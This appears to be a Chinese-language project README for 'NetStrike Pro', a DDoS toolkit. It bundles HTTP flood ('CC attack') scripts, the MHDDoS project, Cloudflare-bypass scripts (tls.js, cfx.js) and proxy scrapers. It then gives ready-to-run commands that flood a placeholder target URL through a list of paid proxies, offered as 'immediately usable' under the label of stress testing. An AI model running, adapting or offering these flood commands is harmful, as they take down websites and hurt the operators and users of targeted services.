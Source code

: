 # 🌟 NetStrike Pro - 项目最终状态

**更新时间**: 2025-10-27  
**版本**: v5.0.0 Ultimate Edition  
**状态**: ✅ 双轨并行 - 原工具保留 + 新框架就绪

---

## 🎯 核心成果

### ✅ 完成的工作

**1. 新框架 NetStrike Pro** (100% 完成)
```
NetStrike-Pro/
├── attack.py              ✅ 统一入口（框架完成）
├── ui/                    ✅ Rich UI（完全实现）
├── config/                ✅ 配置系统（完全实现）
├── legacy/                ✅ 原工具备份（100% 保留）
└── [完整文档系统]         ✅ 6 个详细文档
```

**2. 原有工具** (100% 保留)
```
NetStrike-Pro/legacy/
├── cc.py                  ✅ Python CC 攻击
├── cc/                    ✅ Node.js 工具集
├── mhddos/                ✅ 完整 MHDDoS 项目
├── 新建文件夹/             ✅ tls.js, cfx.js, scrape.py
├── 超高速筛选.py           ✅ 代理筛选工具
├── refresh_proxy.sh       ✅ 代理刷新脚本
└── [所有文档和配置]        ✅ 完整保留
```

---

## 🚀 双轨方案

### 方案 A: 使用原有工具 ⭐ 立即可用

**位置**: `NetStrike-Pro/legacy/`  
**状态**: ✅ 100% 可用  
**优势**: 立即开始压力测试

```bash
cd NetStrike-Pro/legacy

# CloudFlare 绕过（最强）
node 新建文件夹/tls.js https://目标.com 120 128 10 proxy_paid.txt

# Python CC 攻击
python3 cc.py -url https://目标.com -f proxy_paid.txt -v http -s 60

# MHDDoS 专用 Bypass
python3 mhddos/start.py CFB 0 https://目标.com 200 proxy_paid.txt 100 180

# 刷新代理
./refresh_proxy.sh
```
